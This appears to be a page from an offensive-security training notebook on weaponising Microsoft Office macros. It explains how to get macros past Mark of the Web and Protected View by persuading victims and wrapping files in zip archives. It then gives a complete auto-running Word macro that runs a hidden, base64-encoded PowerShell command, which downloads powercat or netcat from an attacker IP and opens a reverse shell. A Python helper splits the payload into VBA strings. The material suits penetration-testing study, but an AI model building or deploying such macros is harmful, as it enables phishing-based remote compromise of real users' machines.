


---
layout:
  title:
    visible: true
  description:
    visible: false
  tableOfContents:
    visible: true
  outline:
    visible: true
  pagination:
    visible: true
---

# Exploiting Microsoft Office

Ransomware attacks have increased dramatically in recent years. In most cases, the initial breach involved a malicious Microsoft Office macro. This is a common attack vector since Office is ubiquitous and Office documents are commonly emailed between colleagues.

## Preparing the Attack

There are three important considerations when using malicious Office documents in a client-side attack.

### Delivery Method

The first thing to consider is how the malicious document will be delivered to the target. The choice of delivery method is responsible for whether the document even gets to the target. Additionally, the method of delivery can have significant impact on whether the file is opened once delivered.

Since malicious macro attacks are well-known, email providers and spam filter solutions often filter out all Microsoft Office documents by default. Therefore, in a majority of situations an attacker cannot just send the malicious document as an attachment. Furthermore, most anti-phishing training programs stress the danger of enabling macros in an emailed Office document.

To increase the chances of success the attacker use a [pretext](target-reconnaissance.md#pretext) and perhaps present the document as a download link.

### Mark of the Web

The ominously named [Mark of the Web](https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked) (MOTW) is a tag applied to all Office documents when a file is downloaded to a device running Windows, identifying its source as being from the internet. Office documents tagged with MOTW will open in [Protected View](https://support.microsoft.com/en-us/office/what-is-protected-view-d6f09ac7-e6b9-4495-8e43-2bbcdbcb6653?ui=en-us\&rs=en-us\&ad=us) presenting the user with a Security Warning:

<figure><figcaption><p>Protected View on a Word document</p></figcaption></figure>

Beyond just presenting a warning, Protected View disables all editing and modification settings in the document and also blocks the execution of macros or embedded objects.

When the victim enables editing, the protected view is disabled. Therefore, the most basic way to overcome this limitation is to convince the target to click the `Enable Editing` button by, for example, blurring the rest of the document and instructing them to click the button to "unlock" it.

Some Office Products such as _Microsoft Publisher_ do not have a Protected View but relying on this greatly reduces the amount of targets. How many people even have _Publisher_ installed?&#x20;

There are also some other [techniques](https://attack.mitre.org/techniques/T1553/005/) such as wrapping the Document in a `.zip` that will prevent MOTW from being applied.

### Macros Disabled By Default

One other point to consider is Microsoft's [announcement](https://techcommunity.microsoft.com/t5/microsoft-365-blog/helping-users-stay-safe-blocking-internet-macros-by-default-in/ba-p/3071805) that discusses blocking macros by default. This change affects Access, Excel, PowerPoint, Visio, and Word. Microsoft implemented this in a majority of Office versions such as Office 2021 all the way back to Office 2013. The implementation dates for the various channels are listed in the corresponding [Microsoft Learn](https://learn.microsoft.com/en-us/deployoffice/security/internet-macros-blocked#versions-of-office-affected-by-this-change) page.

The announcement states that macros in files delivered via the Internet may no longer be activated by the click of a button, but by following a more tedious process. For example, when a user opens a document with embedded macros, they will no longer receive the `Enable Content` message:

<figure><figcaption><p>Enable Content from days gone by</p></figcaption></figure>

Instead, they will receive a new, more ominous message with a `Learn More` button:

<figure><figcaption><p>Updated warning message and button</p></figcaption></figure>

If users click on `Learn More`, the resulting [Microsoft web page](https://support.microsoft.com/en-us/topic/a-potentially-dangerous-macro-has-been-blocked-0952faa0-37e7-4316-b61d-5b5ed6024216) will outline the dangers of enabling macros. Additionally, Microsoft provides instructions on how to unblock the macro by checking `Unblock` under file properties.

This means that after this change, an attacker must convince the user to unblock the file via the checkbox before the malicious macro can be executed. Even after adding all these mitigations and creating general awareness, malicious Microsoft Office macros are still one of the most commonly used client-side attacks.

## Writing Malicious Macros

This example will create a malicious macro in Word. The process for other Office applications is largely similar with minor modifications.

The macro is created like any other in Word. Keep in mind the document must be saved in either a `.doc` or `.docm` format, `.docx` allows the _running_ of macros but not the _embedding_ of macros so persistence is not possible. The macro can be defined with the `Sub` or `Function` keyword depending on whether a return value is desired.

### ActiveX Objects

This example will leverage [ActiveX Objects](https://learn.microsoft.com/en-us/previous-versions/windows/desktop/automat/activex-objects) which provide access to underlying operating system commands.

An ActiveX object is an instance of a class that exposes properties, methods, and events to ActiveX clients. ActiveX objects support the COM. An ActiveX component is an application or library that is capable of creating one or more ActiveX objects.&#x20;

For example, Microsoft Excel exposes many objects that one can use to create new applications and programming tools. Within Microsoft Excel, objects are organized hierarchically, with an object named `Application` at the top of the hierarchy. The following image shows some of the objects in Microsoft Excel:

<figure><figcaption><p>Some of the ActiveX objects in Excel</p></figcaption></figure>

Word follows a similar structure with `Application` at the top of the hierarchy.

### WScript

The [WScript](https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/at5ydy31\(v=vs.84\)) object is the root object of the Windows Script Host object model hierarchy. It never needs to be instantiated before invoking its properties and methods, and it is always available from any script file. The WScript object provides access to information such as:

* command-line arguments,
* the name of the script file,
* the host file name,
* and host version information.

#### Actions via WScript

The WScript object allows users to:

* create objects,
* connect to objects,
* disconnect from objects,
* sync events,
* stop a script's execution programmatically,
* output information to the default output device (either a Windows dialog box or the command console).

The WScript object can also be used to set the mode in which the script runs (either interactive or batch).

#### WshShell Object

A [Windows Script Host Shell object](https://learn.microsoft.com/en-us/previous-versions/windows/internet-explorer/ie-developer/windows-scripting/aew9yb99\(v=vs.84\)) (a.k.a. WshShell Object) provides the **Environment** collection. This collection allows users to handle environmental variables (such as `WINDIR`, `PATH`, or `PROMPT`).

A WshShell Object is created whenever one wants to run a program locally, manipulate the contents of the registry, create a shortcut, or access a system folder.

### Usage in Macros

A WshShell object can be instantiated with the [`CreateObject`](https://learn.microsoft.com/en-us/office/vba/Language/Reference/User-Interface-Help/createobject-function) function in VBA. From there the [`Run` method](https://www.vbsedit.com/html/6f28899c-d653-4555-8a59-49640b0e32ea.asp) for `WScript.Shell` can be invoked in order to launch an application on the target client machine.

A very simple Macro to launch a PowerShell window would look like this:

```vba
Sub LaunchPS()
    CreateObject("Wscript.Shell").Run "powershell"
End Sub
```

The above macro is not super useful since it just opens a window on a machine the attacker theoretically does not have access to. It illustrates the principal and can be expanded into a more useful script.

## Reverse Shell Example

### Download Powercat

Launching a reverse shell would be a more helpful macro. In this example the attacker plans to download a copy of [Powercat](../shells/reverse-shell/powercat.md) and use it to launch a reverse shell. The command to download it from the source is:

```powershell
IEX (New-Object System.Net.Webclient).DownloadString('https://raw.githubusercontent.com/besimorhino/powercat/master/powercat.ps1')
```

Alternatively the attacker could host a copy of the script on their machine and download it with a similar command:

```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.203:8888/powercat.ps1')
```

* The above command assumes the attacker is hosting a web server on port `8888` at `192.168.45.203`

#### Launching a Shell

Once Powercat is downloaded, the reverse shell can be launched with the PowerShell command:

```powershell
powercat -c 192.168.45.203 -p 443 -e powershell
```

* The above command assumes the attacker has a reverse shell listener (can be Netcat) on port `443` at `192.168.45.203`

#### One-Liner

The download and opening of a shell can be combined into a one-liner by separating them with a semicolon (`;`):


```powershell
IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.203:8888/powercat.ps1');powercat -c 192.168.45.203 -p 443 -e powershell
```


### Encoding the Command

From here the command will be encoded with `base64` to avoid any special character issues:


```bash
echo -n "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.203:8888/powercat.ps1');powercat -c 192.168.45.203 -p 443 -e powershell" | base64
```


* The `-n` flag is used with `echo` to prevent a newline from being appended to the end as `echo` usually does

When run the base64 encoded output is:


```
SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguNDUuMjAzOjg4ODgvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4yMDMgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=
```


Once Base64 encoded the command will need to be appended to `powershell.exe -nop -w hidden -enc` as shown below:

```powershell
powershell.exe -nop -w hidden -enc SUVYIChOZXctT2JqZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0cmluZygnaHR0cDovLzE5Mi4xNjguNDUuMjAzOjg4ODgvcG93ZXJjYXQucHMxJyk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4yMDMgLXAgNDQzIC1lIHBvd2Vyc2hlbGw=
```

* `-nop` is described [here](https://www.danielbohannon.com/blog-1/2017/3/12/powershell-execution-argument-obfuscation-how-it-can-make-detection-easier) and opens PowerShell without a [Profile](https://learn.microsoft.com/en-us/powershell/module/microsoft.powershell.core/about/about\_profiles?view=powershell-7.4)
* `-w hidden` PowerShell it in a hidden window
* `-enc ...` is an encoded command that is run on PowerShell launching
  * `-enc` bypasses execution policy rendering `-ep bypass` unnecessary

#### Python Script

To prevent it from running off the page the following Python script can be used to break the encoded string into chunks and print the VBA commands to concatenate those chunks into a variable called `Str`:


```python
#!/usr/bin/python3

"""
Tool to take a command line argument string and break it into chunks of a predefined size
    The VBA commands to concatenate the chunks into a variable are the printed
"""

import argparse
import base64


def main(args):

    if args.verbose:
        print(f'\n{"-" * 20}  ARGUMENTS  {"-" * 21}\n')
        print(f'Input:\t\t{args.input}')
        print(f'Size:\t\t{args.size}')
        print(f'Variable:\t{args.variable}')
        print(f'Encode:\t\t{args.encode}')
        if args.append is not None: print(f'Append:\t\t{args.append}')

    str_in = encode(args.input, verbose_mode=args.verbose) if args.encode else args.input
    if args.encode and (args.append is not None): str_in = f'{args.append} {str_in}'
    if args.verbose: print(f'\n{"-" * 24}  VBA  {"-" * 23}\n')
    print_vba(str_in, args.variable, args.size, print_declaration=True)

    exit()


"""
Function to print VBA concatenation commands (and variable declaration)
"""
def print_vba(cmd_str, variable_name, chunk_size = 50, print_declaration = True):
    if print_declaration: print(f'Dim {variable_name} As String\n')  
    
    for i in range(0, len(cmd_str), chunk_size):
        if i == 0: print(f'{variable_name} = "{cmd_str[i:i+chunk_size]}"')
        else: print(f'{variable_name} = {variable_name} + "{cmd_str[i:i+chunk_size]}"')


"""
Function to encode input to Base64
"""
def encode(plain_str, verbose_mode = False):
    plain_bytes = plain_str.encode('ascii')                 # Encode to byte string
    b64_bytes = base64.b64encode(plain_bytes)               # Base64 encode byte string
    b64_str = b64_bytes.decode('ascii')                     # Decode to string base64 representation
    if verbose_mode: print(f'Base64 Encoded:\t{b64_str}')   # Print output
    return b64_str                                          # Return


"""
Function to parse command-line arguments
"""
def __parse_arguments():

    #######################################  PARSE ARGUENTS  #######################################
    parser = argparse.ArgumentParser()
    parser.add_argument("-i", "--input",
                        type=str, nargs='?',
                        help="String to be chunked and output",
                        required=True)
    
    parser.add_argument("-s", "--size",
                        type=int, nargs='?',
                        help="Character count of the chunks",
                        default=50)
    
    parser.add_argument("--variable",
                        type=str, nargs='?',
                        help="Variable name for VBA command output",
                        default="Str")
    
    parser.add_argument("--append",
                        type=str, nargs='?',
                        help="Portion of command that is appended after encoding")
    
    parser.add_argument("-e", "--encode", action=argparse.BooleanOptionalAction)
    parser.set_defaults(encode=False)

    parser.add_argument("-v", "--verbose", action=argparse.BooleanOptionalAction)
    parser.set_defaults(verbose=False)

    arguments = parser.parse_args()
    return arguments


# Main call
if __name__ == "__main__":
    arguments = __parse_arguments()
    main(arguments)
```


It is called as follows:


```bash
python chunk_encoded_command.py -i "IEX (New-Object System.Net.WebClient).DownloadString('http://192.168.45.159:8888/Windows/PowerShell/Networking/powercat.ps1');powercat -c 192.168.45.159 -p 443 -e powershell" -e --append "powershell.exe -nop -w hidden -enc" -v
```


The output from the command:

```vba
Dim Str As String

Str = "powershell.exe -nop -w hidden -enc SUVYIChOZXctT2J"
Str = Str + "qZWN0IFN5c3RlbS5OZXQuV2ViQ2xpZW50KS5Eb3dubG9hZFN0c"
Str = Str + "mluZygnaHR0cDovLzE5Mi4xNjguNDUuMTU5Ojg4ODgvV2luZG9"
Str = Str + "3cy9Qb3dlclNoZWxsL05ldHdvcmtpbmcvcG93ZXJjYXQucHMxJ"
Str = Str + "yk7cG93ZXJjYXQgLWMgMTkyLjE2OC40NS4xNTkgLXAgNDQzIC1"
Str = Str + "lIHBvd2Vyc2hlbGw="
```

#### Base64 and PowerShell

Unfortunately in some instances the Base64 encoding in Python (and bash) is different from Python. I recommend doing the base64 encoding with PowerShell as follows:

```powershell
$Text = ‘COMMAND GOES HERE’
$Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
$EncodedText =[Convert]::ToBase64String($Bytes)
$EncodedText
```

In practice this looks like:

```powershell
PS C:\Users\offsec> $Text = "iwr -Uri 'http://192.168.45.159:8888/Windows/Exe/Networking/netcat_x64.exe' -outfile .\nc.exe;.\nc.exe 192.168.45.159 443 -e powershell.exe"
PS C:\Users\offsec> $Bytes = [System.Text.Encoding]::Unicode.GetBytes($Text)
PS C:\Users\offsec> $EncodedText =[Convert]::ToBase64String($Bytes)
PS C:\Users\offsec> $EncodedText
aQB3AHIAIAAtAFUAcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwBzAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlAHQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGYAaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZQB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQA=
```

And the encoded output to launch a shell is:


```
aQB3AHIAIAAtAFUAcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwBzAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlAHQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGYAaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZQB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQA=
```


This still needs to be appended to the `powershell.exe -nop -w hidden -enc ...`. The full command to retirieve and launch a shell is:

```
powershell.exe -nop -w hidden -enc aQB3AHIAIAAtAFUAcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwBzAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlAHQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGYAaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZQB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQA=
```

The chunk\_encoded\_command.py script from above can still be used to break it across lines. Simply call it with the above command as `-i` and do not use `-e` or `--append`:


```bash
python chunk_encoded_command.py -i "powershell.exe -nop -w hidden -enc aQB3AHIAIAAtAFUAcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgALgA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwBzAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlAHQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGYAaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZQB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlAHgAZQA=" -v
```


```vba
Dim Str As String

Str = "powershell.exe -nop -w hidden -enc aQB3AHIAIAAtAFU"
Str = Str + "AcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgAL"
Str = Str + "gA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwB"
Str = Str + "zAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlA"
Str = Str + "HQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGY"
Str = Str + "AaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZ"
Str = Str + "QB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA"
Str = Str + "0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlA"
Str = Str + "HgAZQA="
```

### VBA

The Base64 encoded variable can then be combined with the WScript creation as follows:

```vba
Sub OpenRev()
    Dim Str As String

    Str = "powershell.exe -nop -w hidden -enc aQB3AHIAIAAtAFU"
    Str = Str + "AcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgAL"
    Str = Str + "gA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwB"
    Str = Str + "zAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlA"
    Str = Str + "HQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGY"
    Str = Str + "AaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZ"
    Str = Str + "QB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA"
    Str = Str + "0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlA"
    Str = Str + "HgAZQA="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

#### Auto-Running the Macro

The final step is setting the macro up to be run automatically when the document is opened. To do so one must use the predefined [`AutoOpen`](https://learn.microsoft.com/en-us/office/troubleshoot/word/autoexec-autoopen-macros-word#auto-open) macro and [`Document_Open`](https://learn.microsoft.com/en-us/office/vba/api/word.document.open) event. These are executed by Word when a document is opened. They cover slightly different  scenarios and should therefore both be included.

`AutoOpen` is "old" - comes from WordBasic. It can be placed in any normal module. `Document_Open` is an event and must be in the `ThisDocument` module. They trigger at different times (one before the other) which can be important in some circumstances ([source](https://stackoverflow.com/questions/58964712/what-is-the-difference-between-autoopen-and-document-open)).

They are included in the macro as follows:

```vba
Sub AutoOpen()
  OpenRev
End Sub

Sub Document_Open()
  OpenRev
End Sub

Sub OpenRev()
    Dim Str As String

    Str = "powershell.exe -nop -w hidden -enc aQB3AHIAIAAtAFU"
    Str = Str + "AcgBpACAAJwBoAHQAdABwADoALwAvADEAOQAyAC4AMQA2ADgAL"
    Str = Str + "gA0ADUALgAxADUAOQA6ADgAOAA4ADgALwBXAGkAbgBkAG8AdwB"
    Str = Str + "zAC8ARQB4AGUALwBOAGUAdAB3AG8AcgBrAGkAbgBnAC8AbgBlA"
    Str = Str + "HQAYwBhAHQAXwB4ADYANAAuAGUAeABlACcAIAAtAG8AdQB0AGY"
    Str = Str + "AaQBsAGUAIAAuAFwAbgBjAC4AZQB4AGUAOwAuAFwAbgBjAC4AZ"
    Str = Str + "QB4AGUAIAAxADkAMgAuADEANgA4AC4ANAA1AC4AMQA1ADkAIAA"
    Str = Str + "0ADQAMwAgAC0AZQAgAHAAbwB3AGUAcgBzAGgAZQBsAGwALgBlA"
    Str = Str + "HgAZQA="

    CreateObject("Wscript.Shell").Run Str
End Sub
```

Once saved into a `.doc` or `.docm` format this macro will be automatically executed upon opening the document (and enabling content).
